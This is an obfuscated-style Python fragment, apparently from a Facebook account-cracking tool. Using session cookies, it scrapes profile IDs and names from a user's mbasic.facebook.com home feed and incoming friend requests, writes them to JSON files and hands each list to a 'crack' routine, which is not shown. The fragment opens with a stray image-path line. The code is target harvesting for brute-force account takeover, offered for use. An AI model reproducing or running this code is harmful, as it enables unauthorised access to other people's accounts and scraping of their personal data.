     except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)


def beranda(cookies):
    _url_dev_ = 'https://mbasic.facebook.com/home.php';_file_ = 'beranda.json'
    try:os.remove(_file_)
    except:pass
    print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K));exec_beranda(_url_dev_,cookies,_file_);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)
def exec_beranda(url,cookies,_file_):
    open(_file_,'a');_req_ses_ = requests.Session();_req_get_ = _req_ses_.get(url,cookies=cookies,headers=header_nama);_sop_dev_ = par(_req_get_.text,'html.parser');_buka_file_ = open(_file_).read();print ("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(_file_).read().splitlines())),end='');sys.stdout.flush()
    try:
        for _cici_ in _sop_dev_.find_all('h3'):
            for _azimvau_ in _cici_.find_all('a',href=True):
                if "profile.php" in _azimvau_.get('href'):
                    try:
                        _name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall("profile\.php\?id=(.*?)&",_azimvau_.get("href")))
                        if _name_dev_ in _buka_file_:pass
                        elif '/' in _id_dev_:pass
                        else:open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                    except:pass
                else:
                    try:
                        _name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall("/(.*?)\?",_azimvau_.get("href")))
                        if _name_dev_ in _buka_file_:pass
                        elif '/' in _id_dev_:pass
                        else:open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                    except:pass
            for _azimvau_ in _sop_dev_.find_all('a',href=True):
                if 'See More Stories' in _azimvau_.text:url_dev = 'https://mbasic.facebook.com/' + _azimvau_.get('href');exec_beranda(url_dev,cookies,_file_)
    except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)

def permintaan_pertemanan_masuk(cookies):
    _url_dev_ = 'https://mbasic.facebook.com/friends/center/requests';_file_ = 'friend_login.json'
    try:os.remove(_file_)
    except:pass
    print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K));exec_permintaan_pertemanan_masuk(_url_dev_,cookies,_file_);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)
def exec_permintaan_pertemanan_masuk(url,cookies,_file_):
    open(_file_,'a');_req_ses_ = requests.Session();_req_get_ = _req_ses_.get(url,cookies=cookies,headers=header_nama);_sop_dev_ = par(_req_get_.text,'html.parser');print ("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(_file_).read().splitlines())),end='');sys.stdout.flush()
    try:
        for _azimvau_ in _sop_dev_.find_all('a',href=True):
            if '/friends/hovercard' in _azimvau_.get('href'):
                try:_name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall('uid=(.*?)&',_azimvau_.get('href')));open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                except:pass
            else:pass
        for _azimvau_ in _sop_dev_.find_all('a',href=True):
            if 'See More' in _azimvau_.text:url_dev = 'https://mbasic.facebook.com/' + _azimvau_.get('href');exec_permintaan_pertemanan_masuk(url_dev,cookies,_file_)
    except KeyboardInterrupt:print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)

